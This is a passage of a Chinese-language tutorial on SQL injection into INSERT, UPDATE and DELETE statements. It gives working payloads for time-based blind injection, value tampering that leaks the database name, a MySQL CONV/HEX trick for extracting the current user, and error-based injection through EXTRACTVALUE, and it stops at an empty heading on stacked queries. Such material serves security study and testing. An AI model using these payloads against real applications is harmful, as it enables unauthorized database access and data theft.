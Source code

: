 ### 特殊的SQL注入

#### 是否有可能注入INSERT, UPDATE, DELETE语句？

假设某用户注册场景，username/email/password分别用POST参数`uname`&`email`&`passwd`传入

```SQL
INSERT INTO `users` VALUES (100, '{username}', '{email}', '{password}');
```

在不知道SQL语句结构的情况下，最保险的方案是时间盲注，只需简单闭合即可

传入`uname='='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='&email=a&passwd=b` 

语句变为

```SQL
INSERT INTO `users` VALUES (100, ''='' AND IF({condition}, SLEEP(0), SLEEP(5)) AND ''='', 'a', 'b');
```

如果已经知道INSERT语句的结构，我们可以直接篡改后续的插入内容

传入`uname=', DATABASE(), '')#&email=a&passwd=b` 

语句变为

```SQL
INSERT INTO `users` VALUES (100, '', DATABASE(), '')#', 'a', 'b');
```

注册用户的email栏会直接展示数据库名

#### 一个仅限MySQL的技巧

传入`uname=0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0&email=a&passwd=b`

```SQL
INSERT INTO `users` VALUES (100, '0'|CONV(HEX(SUBSTR(USER(),1, 8)),16, 10)|'0', 'a', 'b');
```

将结果转换回字符即可`UNHEX(CONV(res, 10, 16))`

`UPDATE`语句也是同理。`DELETE`一般没有回显的渠道所以还是只能用延时注入。

#### 报错注入(MySQL环境下)

核心思想就是让我们要查询的信息输出到报错信息中去

`EXTRACTVALUE(xml_document,Xpath_string)`

使⽤Xpath格式的字符串从`xml_document`中获得内容，Xpath格式(一般为/a/b/…)错误就会报错，报错信息中会输出`Xpath_string`

那么我们可以刻意构造错误的`Xpath_string`和我们想要查询的数据拼接

比如，只要查询中执行了 `EXTRACTVALUE(1,CONCAT(0x7e,DATABASE(),0x7e))` 就必定报错(0x7e是~的编码)，`DATABASE()`会作为Xpath的一部分出现在报错信息中

这个技巧可以用在任何回显报错信息的场景中。同理还有很多其他的MySQL可用的报错注入函数。

#### 堆叠注入
